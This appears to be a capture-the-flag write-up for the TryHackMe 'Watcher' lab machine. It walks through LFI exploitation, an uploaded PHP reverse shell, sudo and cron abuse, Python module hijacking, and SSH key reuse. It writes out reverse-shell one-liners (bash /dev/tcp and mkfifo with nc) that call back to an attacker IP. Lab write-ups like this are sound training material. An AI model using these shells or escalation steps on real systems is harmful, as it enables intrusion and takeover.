# Watcher THM - Writeup

##  Information Gathering

Performed port and services scanning:
```bash
nmap -sV -Pn -p- -sS -T5 <target-ip> -oN enum-srv.txt
```

**Scan Results:**
```
PORT      STATE    SERVICE   VERSION
21/tcp    open     ftp       vsftpd 3.0.3
22/tcp    open     ssh       OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open     http      Apache httpd 2.4.29 ((Ubuntu))
8021/tcp  filtered ftp-proxy
... (many filtered unknown ports)
```



Checked `robots.txt` and found restricted files:


Read `/flag.txt` and got the first flag:


Tried bypassing forbidden file using directory traversal (unsuccessful):


Found possible LFI in `post.php?post=`:
```http
http://watcher.thm/post.php?post=secret_file_do_not_read.txt
```


Retrieved FTP credentials and confirmed access:


Got the second flag:


##  Initial Shell Access

Uploaded a malicious PHP file to get a reverse shell:


Triggered the shell:
```http
http://watcher.thm/post.php?post=/home/ftpuser/ftp/files/shell.php
```


Got reverse shell:


Obtained flag 3:


##  Privilege Escalation to Toby

Inspected `/home/` and found user `toby` with `flag_4.txt` but permission denied:
```bash
cat flag_4.txt
```

Checked sudo permissions:
```bash
sudo -l
```
Output:
```
User www-data may run the following commands on watcher:
(toby) NOPASSWD: ALL
```

Switched to Toby using sudo:
```bash
sudo -u toby /bin/bash
```



##  Escalating to Mat 

Found a note in Toby's home:
```
Hi Toby, I've got the cron jobs set up now so don't worry about getting that done. — Mat
```

Inspected scheduled cron jobs:
```bash
cat /etc/crontab
```


Found script `/home/toby/jobs/cow.sh` executed by Mat. Replaced it with reverse shell:
```bash
echo "bash -i >& /dev/tcp/10.23.110.59/4000 0>&1" > cow.sh
```
Got reverse shell as Mat:

Got flag 5:


##  Escalating to Will 

Found a note indicating Will uses Python scripts:


Found and analyzed the script:
```python
import os
import sys
from cmd import get_command

cmd = get_command(sys.argv[1])
whitelist = ["ls -lah", "id", "cat /etc/passwd"]
if cmd not in whitelist:
    print("Invalid command!")
    exit()
os.system(cmd)
```
Sudo permission for this script:
```bash
(will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *
```

Injected reverse shell in `cmd.py`:
```python
import os
os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1| nc 10.23.110.59 5000 >/tmp/f')
```

Gained shell as Will:

Got flag 6:


##  Gaining Root

Found backups directory containing SSH private key:


I tried to use the SSH private key directly, but it failed because the key was encoded in base64 format.
So I first decoded it by using
```bash
echo key | base64 -d > key
chmod 600 key
ssh -i key ubuntu@watcher.thm
```



Boooooom.Got final flag:


---